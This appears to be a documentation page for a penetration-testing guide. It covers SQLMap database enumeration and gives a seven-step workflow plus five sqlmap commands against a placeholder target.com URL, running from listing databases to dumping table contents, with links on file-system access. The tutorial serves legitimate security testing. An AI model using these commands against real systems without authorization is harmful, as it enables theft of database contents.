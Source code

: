 ```yaml
---
title: Database Enumeration
description: Learn how to enumerate database structure and extract data using SQLMap
---
```


# Database Enumeration and Data Extraction


<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="workflow">Workflow</TabsTrigger>
    <TabsTrigger value="commands">Key Commands</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    SQLMap provides comprehensive capabilities for enumerating database structures and extracting valuable information once a SQL injection vulnerability has been identified. These techniques allow for systematic exploration of the database environment while maintaining control over the scope and impact of your security assessment.
  </TabsContent>
  <TabsContent value="workflow">
    A typical database enumeration workflow follows these steps:
    
    1. **Identify SQL injection vulnerability**
    2. **Determine database type and version**
    3. **List available databases**
    4. **Enumerate tables in target databases**
    5. **List columns in sensitive tables**
    6. **Extract valuable data**
    7. **Access file system (if needed and authorized)**
    
    This methodical approach ensures thorough exploration while minimizing unnecessary actions.
  </TabsContent>
  <TabsContent value="commands">
    Essential SQLMap enumeration commands:
    
    ```bash
    # Get current database name
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    
    # List all databases
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    
    # List tables in a database
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname --tables
    
    # List columns in a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --columns
    
    # Dump data from a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --dump
    ```
  </TabsContent>
</Tabs>

## Exploration Techniques

<Stepper>
  <StepperItem title="Database Structure Analysis">
    Learn how to enumerate databases, tables, and columns to map out the complete database structure.
    
    [Explore Database Structure →](/docs/sqlmap/database-enumeration/database-structure)
  </StepperItem>
  <StepperItem title="Data Extraction Methods">
    Discover techniques for extracting data from databases, including filtering, optimizing, and handling large datasets.
    
    [Explore Data Extraction →](/docs/sqlmap/database-enumeration/data-extraction)
  </StepperItem>
  <StepperItem title="File System Access">
    Learn how to access the file system through SQL injection vulnerabilities when database privileges permit.
    
    [Explore File System Access →](/docs/sqlmap/database-enumeration/file-system-access)
  </StepperItem>
</Stepper>
